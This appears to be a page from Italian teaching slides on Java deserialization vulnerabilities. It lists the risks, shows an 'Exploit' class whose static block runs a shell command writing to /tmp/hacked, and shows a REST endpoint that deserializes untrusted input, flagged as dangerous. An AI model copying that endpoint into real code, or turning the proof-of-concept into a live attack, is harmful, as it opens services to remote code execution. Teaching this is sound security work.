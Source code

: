 - Rischi:
    - Esecuzione di codice remoto (RCE)
    - Attacchi denial-of-service
    - Bypass di controlli di accesso
    - Manipolazione dei dati

---

## Esempio: Exploiting Java Deserialization

```java
public class Exploit implements Serializable {
  /**
   * Serial version UID utilizzato per la compatibilità di serializzazione.
   */
  @Serial
  private static final long serialVersionUID = -5022552899262915270L;

  /**
   * Blocco di inizializzazione statica che viene eseguito quando la classe viene caricata.
   * Esegue un comando shell che scrive un messaggio nel file /tmp/hacked simulando
   * un'esecuzione di codice remoto (RCE).
   */
  static {
    try {
      ProcessBuilder processBuilder =
              new ProcessBuilder("sh", "-c", "echo \"Sei stato hackerato ;-)\" >> /tmp/hacked");
      processBuilder.start();
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

---

## Vulnerabilità #1: Java Binary Serialization

```java
  @POST
@Path("/deserialize")
@Consumes(MediaType.APPLICATION_OCTET_STREAM)
public Response deserialize(InputStream input) throws IOException, ClassNotFoundException {
  try (ObjectInputStream objectInputStream = new ObjectInputStream(input)) {
    // Pericolo! Qualsiasi oggetto può essere deserializzato
    Object obj = objectInputStream.readObject();
    return Response.ok("Deserialized: %s".formatted(obj.getClass().getName())).build();
  }
}
```
